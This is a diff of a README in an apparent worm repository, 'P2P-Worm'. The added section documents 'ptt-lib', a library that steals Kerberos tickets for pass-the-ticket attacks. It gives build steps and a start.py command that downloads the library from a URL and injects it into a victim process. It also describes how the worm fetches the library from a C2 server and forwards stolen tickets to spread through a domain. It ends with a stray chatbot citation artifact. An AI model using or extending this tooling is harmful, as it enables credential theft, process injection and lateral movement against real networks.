

Before and after one commit to Yuragy/P2P-Worm, a Markdown page: readme.md, the part around the change. Shown at 89% size. Drawn GitHub-style; blank space fills up the shorter version.

`````diff
--- a/readme.md
+++ b/readme.md
@@ -321,3 +321,55 @@ exploits.csv:
 id,cve,description,path
 50035,CVE-2021-3156,Sudo heap overflow exploit,exploits/linux/local/50035.py
 ```
+# ptt‑lib
+
+Platform independent shared C library so/dll that extracts and serializes Kerberos tickets from the local cache krb5cc_<uid> for use in SMB/SSH authentication pass‑the‑ticket.
+
+- Supports reading the default or a custom ccache path
+- Serializes each ticket into a compact binary format: [4‑byte BE length][ticket data]
+- Lightweight, with no external dependencies except MIT Kerberos
+- Suitable for dynamic loading via dlopen / LoadLibrary and invocation from Go/Python/C embeddings
+
+### Functions
+- ptt_init initialize the Kerberos context.
+- ptt_export open the specified or default ccache, iterate all tickets, and serialize them into the buffer.
+- ptt_cleanup free Kerberos context resources.
+
+### Build
+```
+mkdir build && cd build
+cmake ..
+cmake --build .
+````
+
+Generates:
+
+* libptt.so on Linux
+* ptt.dll on Windows
+
+### Injection using start.py
+
+```
+python3 start.py <URL_LIB> <PID>
+```
+
+* <URL_LIB> — URL to `libptt.so` or `ptt.dll`
+* <PID>     — target process ID for injection
+
+The script downloads the library into TEMP, detects the platform, and injects it into the target process via GDB/dlopen on Linux or CreateRemoteThread on Windows.
+
+---
+
+### Integration
+
+The main worm binary can invoke start.py to:
+
+1. Dynamically fetch the latest `ptt‑lib` from the C2 server
+2. Inject the library into a victim process
+3. Call inside the injected process to collect Kerberos tickets
+
+The ptt_export interface then allows the worm to retrieve and forward tickets over the network for further propagation within the domain.
+
+```
+::contentReference[oaicite:0]{index=0}
+```
`````
